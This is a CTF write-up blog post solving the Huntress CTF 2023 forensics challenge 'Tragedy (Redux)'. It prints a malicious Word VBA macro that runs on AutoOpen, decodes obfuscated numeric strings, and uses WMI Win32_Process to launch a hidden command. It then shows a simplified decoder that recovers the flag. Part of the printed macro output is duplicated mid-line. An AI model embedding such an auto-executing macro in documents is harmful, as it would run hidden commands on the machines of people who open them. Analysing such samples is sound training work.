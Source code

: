 ```yaml
---
title: "Tragedy (Redux)"
date: 2023-10-15T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Forensics', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/opendir)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/rock_paper_psychic) 

### We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?


For this challenge we are given the file "tragedy_redux.7z" to download, and told the password is 'infected'.

### Note: Tragedy began with tragedy...In the original version of this challenge, once you unzipped the file the flag.txt was immediately readable. They Fixed the error and re-released the challenge as 'tragedy-redux'.

Once you extract the file, you are given the file 'tragedy_redux'. Running the file command on this reveals that it is still a compressed archive, so you need to unzip it again:
```bash 
unzip tragedy_redux
```
This will leave you with several files and directories to sift through. Eventually, we came across a file 'vbaProject.bin' which we were able to parse using [olevba](https://github.com/decalage2/oletools/wiki/olevba) from Didlier Stevens.
```bash 
sudo -H pip install -U oletools[full]
```
Then 
```bash
olevba vbaProject.bin
```
From this, we get a VBA macro:
```vb
VBA MACRO NewMacros.bas 
in file: vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function SVBA MACRO NewMacros.bas 
in file: vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function
Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()
    
    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If
    
    Apples = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
    Water = Nuts(Apples)


    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin

End Function

Sub AutoOpen()
    Tragedy
End Sub
```

The script automatically executes the Tragedy function within the AutoOpen() subroutine when the document is opened. At a high level, it checks for a specific document name, assigns a long string to variable Apples, then feeds Apples to a series of nested functions that decode the string into readable output that would contain the flag.

Running this script as-is was tedious due to its checks and difficulties in setting up the correct environment. Eventually, we identified its core logic and simplified the code enoough to be able to run reliably and with ease:

```vb 
Module VBModule
    Sub Main()
        Dim Milk As String
        Dim Oatmilk As String
        Milk = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
        Do
        Oatmilk = Oatmilk + Chr((Left(Milk, 3)) - 17)
        Milk = Right(Milk, Len(Milk) - 3)
        Loop While Len(Milk) > 0
        Console.WriteLine(Oatmilk)
    End Sub
End Module
```
We utilized an [online compiler](https://onecompiler.com/vb), and recieved an output that was base64 encoded. We decoded the output and retrieved the flag!

![tragedy](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/tragedy.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/opendir)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/rock_paper_psychic)
